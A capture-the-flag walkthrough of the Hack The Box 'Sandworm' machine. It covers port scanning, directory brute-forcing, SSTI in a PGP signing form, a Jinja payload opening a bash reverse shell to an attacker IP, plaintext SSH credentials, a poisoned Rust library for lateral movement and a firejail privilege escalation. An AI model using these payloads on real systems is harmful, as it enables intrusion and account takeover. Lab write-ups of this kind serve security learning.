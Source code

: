 first of all we add the ip to /etc/hosts:

	sudo nano /etc/hosts:
	10.10.11.218    ssa.htb

we start with rustcan in order to enumerate the target machine:

	rustscan -a 10.10.11.218

output:

	Open 10.10.11.218:22
	Open 10.10.11.218:80
	Open 10.10.11.218:443

it's very strange that there is the 443 opens so if we browse to the following url: https://ssa.htb, we can see the certificate details and more specific the issuer, in order to retrieve some information, and seems there is an email: "atlas@ssa.htb", but more specific a possible user called atlas.

It's time to use gobuster:

	gobuster dir -u https://ssa.htb/  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,js,txt,html,old,docx -k -t 300 2</dev/null

output:

	/about                (Status: 200) [Size: 5584]
	/contact              (Status: 200) [Size: 3543]
	/login                (Status: 200) [Size: 4392]
	/view                 (Status: 302) [Size: 225] [--> /login?next=%2Fview]
	/admin                (Status: 302) [Size: 227] [--> /login?next=%2Fadmin]
	/guide                (Status: 200) [Size: 9043]
	/pgp                  (Status: 200) [Size: 3187]
	/logout               (Status: 302) [Size: 229] [--> /login?next=%2Flogout]
	/process              (Status: 405) [Size: 153]

after crawl inside the website, the most interesting directories are /contact and /guide:
/guide have various form as: decrypt, encrypt, signed.
We try the signed form, in the bottom page there is a signed PGP message and the public key, by using them we notice that it could be a field vulnerable to XSS, so we use two site in order to create our signed message:

	/site to generate keys/
	https://pgpkeygen.com/ ---> in the comment field we add the XSS payload

	/site to signed message/
	http://www.2pih.com/pgp.html

We signed the message, we add the public key and it works, after many tries it seems that XSS doing nothing special.
The website is run by flask and my friend Disturbante(https://github.com/Disturbante) after some researches find a vuln that hit the templates'engine(who generate dynamically the web pages), the vuln is called SSTI(Server site template engine) to detect it you can send:

	{{7*7}}

output:

	{{49}}

so we try this script find on internet in order to get a revshell:

	{{config.class.init.globals['os'].popen('bash -c "/bin/bash -i >& /dev/tcp/10.10.16.65/6666 0>&1"').read()}}
	Added in the comment section in the pgp generating keys

	/start pwncat/
	python3 -m pwncat
	connect -lp 6666

we go to the signed form, we paste everything and we have the revshell; digging inside the filesystem we found this:

	/home/atlas/.config/httpie/sessions/localhost_5000/admin.json

there are ssh silentobserver's credentials, so now enter in it:

	pwncat connect ssh://silentobserver:quietLiketheWind22@10.10.11.218

we run linpeas.sh and give us a strange process run by root as atlas

	./tipnet

by reviewing the source code there are various rust's libraries imported and only one is changeable to silentobserver, so the first idea is to poison the library and insert this revshell:

	extern crate chrono;
	
	use std::fs::OpenOptions;
	use std::io::Write;
	use chrono::prelude::*;
	use std::process::Command;
	
	pub fn log(user: &str, query: &str, justification: &str) {
	    REDACTED
	    
	    let output = Command::new("bash")
	        .arg("-c")
	        .arg(command)
	        .output()
	        .expect("not work");
	        
	    if output.status.success() {
	        let stdout = String::from_utf8_lossy(&output.stdout);
	        let stderr = String::from_utf8_lossy(&output.stderr);
	        
	        println!("standar output: {}", stdout);
	        println!("error output: {}", stderr);
	    } else {
	        let stderr = String::from_utf8_lossy(&output.stderr);
	        eprintln!("Error: {}", stderr);
	    }
	    
	    let now = Local::now();
	    let timestamp = now.format("%Y-%m-%d %H:%M:%S").to_string();
	    let log_message = format!("[{}] - User: {}, Query: {}, Justification: {}\n", timestamp, user, query, justification);
	    
	    let mut file = match OpenOptions::new().append(true).create(true).open("/opt/tipnet/access.log") {
	        Ok(file) => file,
	        Err(e) => {
	            println!("Error opening log file: {}", e);
	            return;
	        }
	    };
	    
	    if let Err(e) = file.write_all(log_message.as_bytes()) {
	        println!("Error writing to log file: {}", e);
	    }
	}

we run pwncat:

	pwncat -lp 7777

we're atlas, retrieve and submit the user flag, re-run linpeas.sh.
By running linpeas.sh we can see that firejail it has SUID, so we can work on it to do some privesc, in internet we found an interesting payload:

	https://www.openwall.com/lists/oss-security/2022/06/08/10/1

we open another terminal, sudo su and where are root, /root and submit the root flag.

